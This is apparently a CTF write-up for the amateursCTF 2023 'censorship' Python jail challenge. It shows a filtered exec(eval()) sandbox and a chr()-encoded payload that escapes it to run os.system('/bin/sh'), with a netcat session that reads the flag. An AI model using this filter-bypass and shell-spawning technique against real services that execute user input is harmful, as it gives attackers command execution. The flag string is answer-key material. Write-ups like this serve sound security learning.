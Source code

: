# censorship

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/a205a126-568d-4093-804f-e795ec1bf19e)

```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if "flag" in code or "e" in code or "t" in code or "\\" in code:
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

## solution

to see which functions we have access to, we can use this:

```
>>> [_ for _ in dir(__builtins__) if "e" not in _ and "t" not in _ and "\\" not in _]
['BlockingIOError', 'EOFError', 'Ellipsis', 'EncodingWarning', 'IOError', 'LookupError', 'OSError', 'TabError', 'UnboundLocalError', 'Warning', '__build_class__', '__doc__', 'abs',
'all', 'any', 'ascii', 'bin', 'bool', 'chr', 'dir', 'divmod', 'globals', 'hash', 'id', 'issubclass', 'locals', 'map', 'max', 'min', 'ord', 'pow', 'round', 'sum', 'vars', 'zip']
```

notably, we have access to the `chr` function, which allows us to construct a string from integers (`61 -> "a"`)

to seal the deal, we have `vars`, which allows us access to `__builtins__`

we can use this payload to get access to a shell

```py
vars(vars(vars()[chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)])[chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)]('os'))[chr(1
15)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)]('/bin/sh')
```

it does this:
`vars(vars(vars()['__builtins__'])['__import__']('os'))['system']('/bin/sh')`

which is equivalent to this:
`__builtins__.__import__('os').system('/bin/sh')`

and so we get the flag
```
quasar@quasar098:~$ nc amt.rs 31670
Give code: vars(vars(vars()[chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)])[chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)]('os'))[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)]('/bin/sh')
$ ls
flag.py
run
$ cat flag.py
flag = "amateursCTF{i_l0v3_overwr1t1nG_functions..:D}"
$ exit
Give code: ^C
```

i did not overwrite any functions. not even in my solution for the next challenge, [censorship-lite](https://github.com/quasar098/ctf-writeups/tree/main/amateursctf-2023/censorship-lite)
